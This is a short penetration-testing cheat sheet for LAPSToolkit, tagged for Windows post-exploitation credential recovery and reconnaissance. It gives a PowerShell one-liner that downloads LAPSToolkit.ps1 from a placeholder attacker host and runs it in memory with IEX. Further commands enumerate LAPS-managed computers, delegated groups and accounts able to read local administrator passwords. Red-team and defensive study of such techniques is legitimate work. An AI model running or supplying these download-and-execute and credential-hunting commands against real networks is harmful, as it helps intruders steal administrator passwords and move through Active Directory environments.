 # LAPS

% LAPS, passwords

## laps toolkit
#plateform/windows  #target/remote  #cat/POSTEXPLOIT/CREDS_RECOVER 

https://github.com/leoloobeek/LAPSToolkit

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/LAPSToolkit.ps1') | IEX; Import-Module .\LAPSToolkit.ps1
```

## laps toolkit - Get laps computer
#plateform/windows  #target/remote  #cat/RECON 
```powershell
Import-Module .\LAPSToolkit.ps1; Get-LAPSComputers
```

## laps toolkit - find LAPS Delegated Groups
#plateform/windows  #target/remote  #cat/RECON 
```powershell
Import-Module .\LAPSToolkit.ps1; Find-LAPSDelegatedGroups
```

## laps toolkit - Find users with Extended rights
#plateform/windows  #target/remote  #cat/RECON 
```powershell
Import-Module .\LAPSToolkit.ps1; Find-AdmPwdExtendedRights
```